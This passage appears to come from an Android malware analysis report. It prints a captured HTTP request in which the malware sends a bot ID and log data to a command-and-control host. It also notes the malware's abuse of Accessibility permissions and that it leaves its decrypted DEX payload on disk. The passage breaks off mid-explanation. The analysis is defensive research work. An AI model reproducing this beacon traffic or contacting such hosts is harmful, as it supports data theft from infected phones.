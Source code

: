 ```http
POST /logpost/ HTTP/1.1
Content-Type: application/x-www-form-urlencoded
charset: utf-8
Content-Length: 382
User-Agent: Dalvik/2.1.0 (Linux; U; Android 10; Android SDK built for x86_64 Build/QSR1.210802.001)
Host: satandemantenimiento.com
Connection: close
Accept-Encoding: gzip, deflate

botid=4dddcd2334122d7ee728&text=%5B%22%7B%5C%22type%5C%22%3A%5C%22INFO%5C%22%2C%5C%22log%5C%22%3A%5C%22%5BLauncherActivity%5D+CURRENT+LANG+-+EN%5C%22%2C%5C%22time%5C%22%3A%5C%221667658925989%5C%22%7D%22%2C%22%7B%5C%22type%5C%22%3A%5C%22WARNING%5C%22%2C%5C%22log%5C%22%3A%5C%22%5BLauncherActivity%5D+Starting+dead+service%5C%22%2C%5C%22time%5C%22%3A%5C%221667658925995%5C%22%7D%22%5D
```

Using Accessibility features, the malware can view and control the screen and imitate user activity.

![](./media/accessibility-permissions.png)

The malware does not delete the decrypted DEX file after loading it into the process memory and therefore we can easily obtain it from the application's data folder:
